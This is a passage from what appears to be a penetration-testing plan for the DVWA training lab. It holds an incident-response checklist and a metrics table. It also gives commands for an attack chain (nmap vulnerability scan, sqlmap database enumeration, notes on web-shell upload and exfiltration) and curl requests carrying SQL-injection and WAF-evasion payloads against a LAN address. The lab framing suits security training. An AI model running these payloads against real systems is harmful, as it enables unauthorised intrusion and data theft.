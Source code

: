 ### **Incident Response:**
- [ ] **Immediate Notification:** Report critical findings immediately
- [ ] **Evidence Preservation:** Maintain chain of custody
- [ ] **Coordinated Disclosure:** Follow responsible disclosure practices
- [ ] **Documentation:** Record all testing activities

---

## 📊 Testing Metrics and KPIs

| Metric | Target | Measurement |
|--------|--------|-------------|
| **Coverage** | 100% of DVWA modules | Manual testing verification |
| **Detection Rate** | >90% of attacks detected | Coordination with security teams |
| **False Positive Rate** | <10% | Validation of scanner findings |
| **Time to Detection** | <2 minutes | Real-time monitoring collaboration |
| **Report Quality** | Professional standard | Stakeholder feedback |

---

## 🎯 Advanced Testing Scenarios

### **Multi-Vector Attack Chain:**
```bash
# 1. Information gathering
nmap -sV --script vuln 192.168.0.169

# 2. Initial access via SQL injection
sqlmap -u "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1" --dbs

# 3. File upload for persistence
# Upload web shell via file upload vulnerability

# 4. Privilege escalation
# Exploit local vulnerabilities or misconfigurations

# 5. Data exfiltration
# Extract sensitive data through established channels
```

### **Evasion Testing:**
```bash
# WAF bypass techniques
curl -H "X-Forwarded-For: 127.0.0.1" "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1' OR '1'='1'"

# Encoding variations
curl "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1%27%20OR%20%271%27=%271"

# Case variation
curl "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1' oR '1'='1'"
```

---
